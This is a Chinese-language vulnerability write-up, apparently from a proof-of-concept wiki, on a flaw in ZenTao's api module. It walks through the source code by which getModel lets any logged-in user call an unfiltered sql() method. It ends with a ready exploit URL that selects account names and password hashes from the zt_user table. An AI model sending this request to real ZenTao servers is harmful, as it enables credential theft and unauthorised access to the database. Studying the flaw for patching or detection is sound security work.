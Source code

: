 通过之前获取的**moduleName**包含对应的**control类**文件并实例化，随后调用**setParamsByPathInfo**方法从路径中获取方法对应的参数值，最后通过**call_user_func_array**方法调用对应**control类**中的对应方法并赋值。

我们查看**module/api/control.php**文件中的**getModel**方法

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-19.png)

这里通过**call_user_func_array**函数调用所有的**model文件**的所有方法。

```php
$result = call_user_func_array(array(&$module, $methodName), $params);
```

可以看到**module/api/moudel.php**中的**sql函数**

```php
public function sql($sql, $keyField = '')
{
    $sql  = trim($sql);
    if(strpos($sql, ';') !== false) $sql = substr($sql, 0, strpos($sql, ';'));
    a($sql);
    if(empty($sql)) return '';

    if(stripos($sql, 'select ') !== 0)
    {
        return $this->lang->api->error->onlySelect;
    }
    else
    {
        try
        {
            $stmt = $this->dao->query($sql);
            if(empty($keyField)) return $stmt->fetchAll();
            $rows = array();
            while($row = $stmt->fetch()) $rows[$row->$keyField] = $row;
            return $rows;
        }
        catch(PDOException $e)
        {
            return $e->getMessage();
        }
    }
}
```

这里并没有进行过滤，只使用了代码**$sql=trim($sql)**过滤了空格

我们看一下这里的调用这个方法需要的权限

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-20.png)

这里可以看到任何用户都可以调用这个模块的方法，所以我们用它调用**sql**方法进行查询(空格转换为+,绕过过滤)

```
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-21.png)

成功执行sql语句

## 漏洞利用POC

登陆后访问

```
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

